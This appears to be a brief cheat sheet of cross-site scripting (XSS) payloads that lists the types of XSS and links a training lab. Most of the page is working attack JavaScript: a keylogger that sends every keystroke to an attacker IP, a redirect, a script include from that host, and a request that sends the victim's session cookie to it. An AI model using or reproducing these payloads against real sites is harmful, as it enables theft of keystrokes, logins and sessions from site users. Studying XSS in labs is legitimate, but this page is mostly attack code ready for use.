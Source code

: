 ## What is XSS Vulnerability?

This vulnerability allow you to inject JavaScript in the web page.

-----

# Types of XSS

- Reflected
- Stored
- DOM-Based

---

## Keylogger

This mini keylogger works sending GET request to the host indicate. This keylogger doesn't work when the user delete the character 

````js
<script>
    var k = "";
    document.onkeypress = function(e){
        // En todos los navegadores no funciona, para comprobar si funciona podemos hacer lo siguiente
        e = e || window.event;

        k += e.key;
        var i = new Image();
        i.src = "http://172.21.7.214/" + k; // attacker machine
    }
</script>
````

-----

## Redirect to other page

````js
<script>
window.location.href="https://sergiky.github.io/";
</script>
````

--------

## External JavaScript Source

````js
<script src ="http://172.21.7.214/test.js"></script>
````

 ### Obtain session cookie
````js
var request = new XMLHttpRequest();
request.open('GET', 'http://172.21.7.214/?cookie=' + document.cookie);
request.send();
````


# Labs to training

https://github.com/globocom/secDevLabs

You have tu run the docker service 

----
# Tags

#xss #keylogger #redirect 

---
